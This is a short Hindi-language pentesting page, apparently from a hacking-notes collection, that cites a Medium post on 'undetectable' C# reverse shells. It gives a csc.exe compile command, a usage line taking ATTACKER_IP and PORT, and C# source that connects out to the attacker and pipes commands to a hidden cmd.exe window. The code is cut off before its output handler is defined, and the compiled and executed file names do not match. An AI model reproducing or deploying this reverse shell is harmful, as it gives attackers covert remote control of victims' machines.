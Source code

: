 https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### पहला C# रिवर्सशेल

इसे कंपाइल करें:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
इसका उपयोग करें:
```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}
```